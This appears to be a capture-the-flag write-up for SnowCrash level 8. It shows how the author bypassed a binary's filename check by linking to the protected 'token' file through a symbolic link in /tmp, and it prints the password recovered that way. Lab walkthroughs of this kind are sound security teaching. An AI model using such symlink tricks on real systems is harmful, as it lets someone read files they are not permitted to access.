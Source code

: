 # SnowCrash Level08

Another binary, this time we have a token with it.
Trying to read the token gave us permission denied.

GDB TIME...
Well this one was so long but... hold on.
We can use strings in order to simplify it.
We get that the binary tries to read a file. We give it token but it can't due to permissions.
So why not a symbolic link to trick the program.

```
level08@SnowCrash:~$ ln -s /home/user/level08/token /tmp/temp_tok
level08@SnowCrash:~$ ./level08 /tmp/temp_tok
quif5eloekouj29ke0vouxean
```

and now lets get out flag.
```
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 
```